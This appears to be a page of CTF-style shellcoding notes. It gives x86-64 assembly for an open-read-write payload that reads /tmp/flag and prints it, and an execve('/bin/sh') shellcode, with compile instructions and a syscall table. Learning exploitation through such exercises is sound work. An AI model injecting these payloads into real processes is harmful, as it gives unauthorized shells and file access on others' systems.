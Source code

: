 How to compile into ELF 
```
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```

### execve shell code

Only uses execve systemcall: execve("/bin/sh",null,null) <br>

| syscall | rax  | arg0 (rdi)     | arg1 (rsi)      | arg2 (rdx)        |
|---------|------|----------------|-----------------|-------------------|
| execve  | 0x3b | char *filename | char *argv      | char *const *envp |

```
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```
